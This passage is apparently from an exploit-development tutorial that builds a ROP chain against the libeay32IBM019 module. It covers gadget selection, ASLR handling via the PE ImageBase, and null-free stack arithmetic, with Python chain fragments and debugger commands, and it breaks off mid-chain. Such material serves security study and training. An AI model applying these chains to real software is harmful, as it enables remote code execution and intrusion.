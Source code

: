 this one does the trick.

```asm
0x100408d6: push esp ; pop esi ; ret
```

a quick aside: the reason for this is to get a reliable stack pointer and maintain control over the execution flow. it also gives us a clean register state for following operations.

we then need to find the `ImageBase` address from the PE header. since ASLR requires relative addressing, we won't be able to use the absolute address of the gadget above (`0x100408d6`), and so we'll need to calculate the offsets.

`ImageBase` provides a reliable reference point, and since all gadgets must be module-relative, this ensures exploit reliability across runs.



```shell
dd libeay32IBM019 + 3c L1     # gets PE header offset (0x108)
dd libeay32IBM019 + 108 + 34 L1  # gets ImageBase (0x10000000)

# gadget offset calculation
actual_offset = gadget_addr - 0x10000000
```

#### stack address resolution

the first phase of our ROP chain replaces the dummy stack address with the shellcode address. the first step of this phase is to align the `EAX` register with the shellcode address on the stack.

```python
eip = pack("<L", (dllBase + 0x408d6)) # push esp ; pop esi ; ret

# get shellcode address
rop = pack("<L", (dllBase + 0x408d6))  # push esp ; pop esi ; ret
rop += pack("<L", (dllBase + 0x296f))  # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242))        # ESI junk value
rop += pack("<L", (dllBase + 0x117c))  # pop ecx ; ret
```

- `rop = pack("<L", (dllBase + 0x408d6))`: this cleans the `ESP` capture without assumptions.

- `rop += pack("<L", (dllBase + 0x296f))`: this gets the stack address in the working register.

- `rop += pack("<L", (0x42424242))`: this maintains the stack alignment.

`EAX` is needed for later arithmetic, `ESI` preserves the original stack pointer, and the junk values maintain the stack frame integrity.

#### avoiding null bytes

to do some stack address arithmetic (i.e. **avoiding nulls**), we'll need to use addition of negative values instead of direct subtraction. this is because exploit delivery often breaks on nulls, and large numbers ensure no null bytes.

in a two-part addition, we'll get precise control and maintain our numeric results without null bytes.

```python
# stack address arithmetic (avoiding nulls)
rop += pack("<L", (0x88888888))        # large value into ECX
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x117c))  # pop ecx ; ret
rop += pack("<L", (0x77777878))        # second adjustment
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
```
